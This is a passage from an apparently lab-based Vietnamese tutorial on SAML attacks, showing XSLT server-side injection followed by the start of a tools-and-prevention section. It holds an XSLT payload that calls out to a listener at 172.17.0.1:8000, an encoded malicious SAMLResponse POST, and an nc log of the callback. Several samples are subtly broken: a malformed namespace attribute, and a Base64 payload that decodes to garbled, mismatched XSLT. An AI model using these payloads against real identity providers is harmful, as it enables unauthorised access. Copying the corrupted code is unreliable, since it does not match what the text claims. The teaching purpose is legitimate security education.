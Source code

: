 ```xml
<?xml version="1.0" encoding="utf-8"?>
<stylesheet version="1.0" xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:copy-of select="document('http://172.17.0.1:8000/')"/>
  </xsl:template>
</stylesheet>
```

Sau khi mã hóa Base64 và URL hóa payload, chúng ta có thể gửi phản hồi SAML đã bị thay đổi:

```
POST /acs.php HTTP/1.1
Host: academy.htb
Content-Length: 361
Content-Type: application/x-www-form-urlencoded
SAMLResponse=PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0idXRmLTgiPz4NCjx4c2w6c3R5bGVzaGVldCB2ZXJzaW9uPSIxLjAiIHhtbG5zOnhzbD0iaHR0cDovL3d3dy53My5vcmcvMTk5OS9YU0wvVHJhbnNmb3JtIj4NCjx4c2w6dGVtcGxhdGUgbWF0Y2g9Ii8iPg0KPHhzbDpjb3B5LWIgb3YgcmVsYXRlPSJkb2N1bWVudCgnYXR0cC9odHRwOi8vMTcyLjE3LjAuMjo4MDAwLyc7Ii8+DQpAdGVtcGxhdGU+%3d&RelayState=%2Facs.php
```

Nếu nhà cung cấp dịch vụ bị lỗ hổng XSLT Server-side Injection, chúng ta sẽ nhận được kết nối tương tự như sau:

```
nc -lnvp 8000
listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 57128
GET / HTTP/1.1
Host: 172.17.0.1:8000
Connection: close
```

Lưu ý rằng nhà cung cấp dịch vụ có thể bị lỗ hổng, mặc dù payload tiêm của chúng ta không chứa một phản hồi SAML hợp lệ, và do đó dịch vụ có thể từ chối yêu cầu và từ chối cấp quyền truy cập. Nếu chỉ tiêm payload XSLT không thành công, chúng ta cũng có thể thử tiêm payload vào node `ds:Transform` của phản hồi SAML hợp lệ để kiểm tra xem liệu payload XSLT có được kích hoạt trong quá trình phân tích dữ liệu SAML hay không, miễn là phản hồi SAML chứa thông tin xác thực hợp lệ.

---
# 5. Công cụ và Phòng ngừa Lỗ hổng SAML

Sau khi thảo luận về các lỗ hổng trong các triển khai SAML, chúng ta sẽ tìm hiểu một số công cụ giúp đơn giản hóa quá trình nhận diện và khai thác lỗ hổng, cũng như cách phòng ngừa các lỗ hổng liên quan đến SAML.

### Công cụ Thực Hành

**SAML Raider** là một extension cho BurpSuite, được thiết kế để nhận diện và khai thác các lỗ hổng trong các triển khai SAML. Chúng ta có thể cài đặt SAML Raider từ BurpSuite App Store dưới mục **Extensions > BApp Store**.

Sau khi cài đặt extension, SAML Raider sẽ tự động làm nổi bật các yêu cầu chứa dữ liệu SAML trong tab HTTP proxy:

